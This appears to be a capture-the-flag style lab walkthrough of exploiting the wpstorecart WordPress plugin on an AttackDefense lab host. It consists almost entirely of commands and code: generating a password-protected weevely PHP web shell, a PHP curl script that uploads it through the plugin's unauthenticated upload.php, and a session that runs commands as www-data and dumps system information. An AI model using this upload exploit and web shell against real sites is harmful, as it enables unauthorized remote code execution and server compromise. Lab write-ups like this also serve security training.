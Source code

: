 `weevely generate 'password123' ./weevely_shell.php`:
```
Generated './weevely_shell.php' with password 'password123' of 688 byte size.
```

`vim ./wpstorecart_exploit.php`:
```php
<?php

$uploadfile="/home/kali/weevely_shell.php";
$ch =
curl_init("https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/wp-content/plugins/wpstorecart/php/upload.php");
curl_setopt($ch, CURLOPT_POST, true);
curl_setopt($ch, CURLOPT_POSTFIELDS,
         array('Filedata'=>curl_file_create($uploadfile)));
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$postResult = curl_exec($ch);
curl_close($ch);
print "$postResult";

?>
```

`php -f ./wpstorecart_exploit.php`

`curl https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/wp-content/uploads/wpstorecart/weevely_shell.php`

`weevely https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/wp-content/uploads/wpstorecart/weevely_shell.php 'password123'`:
```
[+] weevely 4.0.1

[+] Target:     f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com
[+] Session:    /home/kali/.weevely/sessions/f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/weevely_shell_0.session

[+] Browse the filesystem or execute commands starts the connection
[+] to the target. Type :help for more information.

weevely> id
uid=33(www-data) gid=33(www-data) groups=33(www-data) 🚩
```
```
www-data@attackdefense.com:/app/wp-content/uploads/wpstorecart $ :system_info
+--------------------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| document_root      | /var/www/html |
| pwd                | /app/wp-content/uploads/wpstorecart |
| script_folder      | /app/wp-content/uploads/wpstorecart |
| script             | /wp-content/uploads/wpstorecart/weevely_shell.php |
| php_self           | /wp-content/uploads/wpstorecart/weevely_shell.php |
| whoami             | www-data |
| hostname           | attackdefense.com |
| open_basedir       |
|
| disable_functions  | pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority, |
| safe_mode          | False |
| uname              | Linux attackdefense.com 6.8.0-40-generic #40-Ubuntu SMP PREEMPT_DYNAMIC Fri Jul  5 10:34:03 UTC 2024 x86_64 |
| os                 | Linux x86_64 |
```